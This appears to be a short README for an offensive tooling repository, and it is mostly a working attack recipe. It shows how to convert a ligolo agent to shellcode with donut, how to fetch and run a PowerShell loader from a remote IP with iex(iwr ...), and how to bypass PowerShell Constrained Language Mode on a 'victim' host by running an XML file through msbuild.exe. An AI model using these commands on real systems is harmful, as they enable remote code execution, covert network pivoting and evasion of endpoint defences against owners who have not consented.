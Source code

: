 ## Powershell Shellcode Runner 
Make sure to convert agent.exe of ligolo to shellcode:
- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

Make sure you are running as x64 bit process before running: Powershell:
- `[Environment]::Is64BitProcess`

CMD: 
- `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

Invoke it: 
- `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`

*NOTE: make sure both ligolo.ps1 and agent.bin in the same directory, then serve them by simply using python server*.

## CLM Bypass

`ligolo-clmbypass.xml` can be used to load Ligolo agent with bypassing Constrained Language Mode.

- Make sure to prepare `ligolo.ps1` file and serve it using python server.

Upload to the victim and run (Make sure to change to your IP Address in the file):

- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe ligolo-clmbypass.xml`
